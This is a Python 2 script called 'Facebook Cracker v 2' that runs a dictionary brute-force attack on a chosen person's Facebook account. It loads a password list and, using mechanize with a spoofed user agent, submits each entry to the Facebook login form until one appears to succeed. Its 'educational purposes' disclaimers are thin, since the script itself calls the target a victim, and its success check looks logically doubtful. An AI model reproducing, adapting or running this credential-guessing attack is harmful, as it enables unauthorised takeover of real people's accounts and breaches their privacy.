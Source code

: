 #!usr/bin/python
#Facebook Cracker Version 2 can crack into Facebook Database 100% without Interruption By Facebook Firewall !
#This program is for educational purposes only.
#Don't attack people facebook accounts it's illegal ! 
#If you want to crack into someone's account, you must have the permission of the user. 
#Hazem is not responsible.


import sys
import random
import mechanize
import cookielib


GHT = '''
        +=========================================+
        |..........Facebook Cracker v 2...........|
        +-----------------------------------------+
        |#Author:      Hazem gemy                 |
        |#Contact: www.twitter.com/Hazem Gamal A  |
        |#Date: 23/10/2015                        |
        |#This tool is made for pentesting.       |
        |#Changing the Description of this tool   |
        |Won't made you the coder ^_^ !!!         |
        |#Respect Coderz ^_^                      |
        |#I take no responsibilities for the      |
        |  use of this program !                  |
        +=========================================+
        |..........Facebook Cracker v 2...........|
        +-----------------------------------------+
'''
print "Note: - This tool can crack facebook account even if you don't have the email of your victim"
print "# Hit CTRL+C to quit the program"
print "#thanks for using facebook,py crack"


email = str(raw_input("# Enter |Email| |Phone number| |Profile ID number| |Username| : "))
passwordlist = str(raw_input("Enter the name of the password list file : "))

useragents = [('User-agent', 'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]



login = 'https://www.facebook.com/login.php?login_attempt=1'
def attack(password):

  try:
     sys.stdout.write("\r[*] trying %s.. " % password)
     sys.stdout.flush()
     br.addheaders = [('User-agent', random.choice(useragents))]
     site = br.open(login)
     br.select_form(nr=0)

      
         
     ##Facebook
     br.form['email'] =email
     br.form['pass'] = password
     br.submit()
     log = br.geturl()
     if log == login:
        print "\n\n\n [*] Password found .. !!"
        print "\n [*] Password : %s\n" % (password)
        sys.exit(1)
  except KeyboardInterrupt:
        print "\n[*] Exiting program .. "
        sys.exit(1)

def search():
    global password
    for password in passwords:
        attack(password.replace("\n",""))



def check():

    global br
    global passwords
    try:
       br = mechanize.Browser()
       cj = cookielib.LWPCookieJar()
       br.set_handle_robots(False)
       br.set_handle_equiv(True)
       br.set_handle_referer(True)
       br.set_handle_redirect(True)
       br.set_cookiejar(cj)
       br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
    except KeyboardInterrupt:
       print "\n[*] Exiting program ..\n"
       sys.exit(1)
    try:
       list = open(passwordlist, "r")
       passwords = list.readlines()
       k = 0
       while k < len(passwords):
          passwords[k] = passwords[k].strip()
          k += 1
    except IOError:
        print "\n [*] Error: check your password list path \n"
        sys.exit(1)
    except KeyboardInterrupt:
        print "\n [*] Exiting program ..\n"
        sys.exit(1)
    try:
        print GHT
        print " [*] Account to crack : %s" % (email)
        print " [*] Loaded :" , len(passwords), "passwords"
        print " [*] Cracking, please wait ..."
    except KeyboardInterrupt:
        print "\n [*] Exiting program ..\n"
        sys.exit(1)
    try:
        search()
        attack(password)
    except KeyboardInterrupt:
        print "\n [*] Exiting program ..\n"
        sys.exit(1)

if __name__ == '__main__':
    check()
